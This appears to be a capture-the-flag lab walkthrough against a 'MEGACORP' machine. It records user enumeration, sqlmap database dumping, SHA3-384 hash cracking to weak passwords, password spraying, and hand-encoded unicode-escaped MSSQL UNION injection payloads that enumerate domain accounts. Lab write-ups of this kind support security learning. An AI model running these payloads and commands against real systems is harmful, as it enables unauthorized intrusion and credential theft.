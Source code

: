 
```
enum4linux -a 10.10.10.179
```

```
Domain Name: MEGACORP                                                         
Domain Sid: S-1-5-21-3167813660-1240564177-918740779
```


So after adding the IP in the host file got this 
![[Pasted image 20240919042226.png]]


```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```


```
andrew@MEGACORP.LOCAL
james@MEGACORP.LOCAL
Andrew@MEGACORP.LOCAL
dai@MEGACORP.LOCAL
administrator@MEGACORP.LOCAL
alice@MEGACORP.LOCAL
ANDREW@MEGACORP.LOCAL
lana@MEGACORP.LOCAL
Administrator@MEGACORP.LOCAL
rmartin@MEGACORP.LOCAL
pmartin@MEGACORP.LOCAL
```


So we have the users will try the login page now
```
andrew
james
dai
administrator
alice
ANDREW
lana
Administrator
rmartin
pmartin
```


So the login page is a dead end but when i pressed entered in colleague finder look what we got a list of valid users
![[Pasted image 20240919153405.png]]

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
shayna@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
minato@megacorp.htb
egre55@megacorp.htb
```

2024/09/19 15:37:38 >  Done! Tested 17 usernames (14 valid) in 0.816 seconds

```
sbauer@megacorp.htb
okent@megacorp.htb
ckane@megacorp.htb
kpage@megacorp.htb
james@megacorp.htb
cyork@megacorp.htb
rmartin@megacorp.htb
zac@magacorp.htb
jorden@megacorp.htb
alyx@megacorp.htb
ilee@megacorp.htb
nbourne@megacorp.htb
zpowers@megacorp.htb
aldom@megacorp.htb
```

So now i think we can run the sql injection in this as it reminds me of DVWA 

So we technically have 5 fields
![[Pasted image 20240919160202.png]]

```
"id":1,
"name":"Sarina Bauer",
"position":"Junior Developer",
"email":"sbauer@megacorp.htb",
"src":"sbauer.jpg"
```


Let's automate the process and see which payload works and which is not 
```
wfuzz -c -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/SecLists-master/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'
```

![[Pasted image 20240919183727.png]]


So will try ' and it's value is 
```
\u27
```
and guess what we got an error

![[Pasted image 20240919184156.png]]

```
\u0027
```
![[Pasted image 20240919184507.png]]


```
sqlmap -r post_me.txt --tamper=charunicodeescape --delay 3 --level 5 --risk 3 --dbms=mssql -technique=U --batch --dump-all --exclude-sysdbs -v 3
```


And and and finally this command worked
```
sqlmap -r colleagues.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dump-all --exclude-sysdbs
```

![[Pasted image 20240920032509.png]]

```
id | password                                                                                         | username |
+----+--------------------------------------------------------------------------------------------------+----------+
| 1  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | sbauer   |
| 2  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | okent    |
| 3  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ckane    |
| 4  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | kpage    |
| 5  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | shayna   |
| 6  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | james    |
| 7  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | cyork    |
| 8  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | rmartin  |
| 9  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zac      |
| 10 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | jorden   |
| 11 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | alyx     |
| 12 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ilee     |
| 13 | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | nbourne  |
| 14 | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | zpowers  |
| 15 | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | aldom    |
| 16 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | minatotw |
| 17 | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc | egre55 
```


```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```

So seeing the length of the hashes it's a sha but don't know if it's 256-512 or in b/w 
after some research on HashCat wiki i confirmed that it's hash 384 but didn't know if it's 
sha2 or sha3 or what.
10800	SHA2-384
17500 SHA3-384
17900 Keccak-384

And finally this worked
```
.\hashcat.exe -m 17500 -D 2 .\hashes4.txt .\rockyou.txt -O
```

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
Approaching final keyspace - workload adjusted.
```

Password
```
password1
finance1
banking1
```


So let's validate the password
```
crackmapexec smb 10.10.10.179 -u new_user.txt -p password.txt 
```


So tested the new users
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 testing.txt -t 100 
```
![[Pasted image 20240922030306.png]]


So everthing is a dead end so i refer the walkthrough and guess what there is again a sql injection to be performed.

There are many [well-known](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) RID like **512** for the **Domain Admins** group. Let’s build a request to find out what if this attack works.
```
hello' UNION SELECT 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),3,4,5--
```


```
\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

Final Payload
```
hello\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```


```
0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000
```
![[Pasted image 20240922042724.png]]


```
' UNION SELECT 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),3,4,5--
```

```
\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u004E\u0041\u004D\u0045\u0028\u0030\u0078\u0030\u0031\u0030\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0035\u0031\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0063\u0030\u0030\u0064\u0031\u0062\u0063\u0064\u0031\u0038\u0031\u0066\u0031\u0034\u0039\u0032\u0062\u0064\u0066\u0063\u0032\u0033\u0036\u0066\u0034\u0030\u0031\u0030\u0030\u0030\u0030\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

Another Payload
```
hello\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u004E\u0041\u004D\u0045\u0028\u0030\u0078\u0030\u0031\u0030\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0035\u0031\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0063\u0030\u0030\u0064\u0031\u0062\u0063\u0064\u0031\u0038\u0031\u0066\u0031\u0034\u0039\u0032\u0062\u0064\u0066\u0063\u0032\u0033\u0036\u0066\u0034\u0030\u0031\u0030\u0030\u0030\u0030\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

```
MEGACORP\\Administrator
```

